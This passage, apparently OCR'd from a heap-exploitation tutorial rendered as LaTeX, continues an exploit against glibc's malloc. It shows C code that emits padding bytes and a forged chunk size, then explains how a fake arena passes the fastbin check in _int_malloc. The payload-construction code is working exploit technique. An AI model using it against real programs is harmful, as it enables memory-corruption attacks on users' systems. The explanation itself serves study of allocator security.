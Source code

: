 \documentclass[12pt]{article}
\begin{document}
You can continue your exploit:

\begin{lstlisting}[language=C]
        for (i = 0; i < 1020; i++)
                putchar(0x41);
        fwrite("\x19\x09\x00\x00", 4, 1, stdout); /* free(2) ptr2 size */

        .... /* Later */

        for (i = 0; i < (2000 / 4); i++)
                fwrite("\x10\x00\x00\x00", 4, 1, stdout);
\end{lstlisting}

At the end of the second free(): arena\_key = p2.
\newline


This value will be used by the call to malloc () setting it as the "arena"
structure to use.
\begin{lstlisting}[language=C]
    arena_get(ar\_ptr, bytes);
    if(!ar\_ptr)
      return 0;
    victim = \_int\_malloc(ar\_ptr, bytes);
\end{lstlisting}

Again, let's go to see, to be more intuitive, the magic code of
"\_int\_malloc()" function:

 \begin{lstlisting}[language=C]
    .....

    if ((unsigned long)(nb) <= (unsigned long)(av->max\_fast)) {
      long int idx = fastbin\_index(nb);
      fb = &(av->fastbins[idx]);
      if ( (victim = *fb) != 0) {
        if (fastbin\_index (chunksize (victim)) != idx)
          malloc_printerr (check_action, "malloc(): memory"
            " corruption (fast)", chunk2mem (victim));
        *fb = victim->fd;
        check_remalloced_chunk(av, victim, nb);
        return chunk2mem(victim);
      }

    .....
\end{lstlisting}

"av" is now our arena, which starts at the beginning of the second chunk
liberated "p2", then it is clear that "av$->$max\_fast" will be equal to the
"size" field of the chunk. In order to pass the first integrity check, we
have to ensure that the size requested by the "malloc()" call is less than
that value, as Phantasmal said, otherwise you can try the technique
described in 4.2.1.
\newline


As our vulnerable program allocate 1024 bytes, it will be perfect por a
successful exploitation.
\newline
\end{document}
